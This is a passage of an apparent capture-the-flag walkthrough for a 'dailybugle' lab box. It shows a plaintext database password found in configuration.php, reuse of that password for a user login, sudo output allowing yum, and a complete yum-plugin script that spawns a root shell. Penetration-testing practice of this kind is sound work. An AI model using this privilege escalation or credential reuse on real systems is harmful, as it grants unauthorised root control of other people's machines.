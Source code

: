 After this, I first checked the `/home`, but I hadn't permissions to see the content of the user `jjameson`'s home

So I tried to find some credentials for the `mysql` in the `/var/www/html`, which lead me to `/var/www/html/configuration.php`. There I found the following creds:

```shell
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```

So then I logged in the mysql service, but found nothing, so I tried that password with the user `jjameson` and worked

Got the user flag:

![](Pasted%20image%2020240530224323.png)

Then I performed:

```shell
sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

So when I saw this, i wen to [GTFObins](https://gtfobins.github.io/gtfobins/yum/) and searched for yum. Then I applied the following:

```shell
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
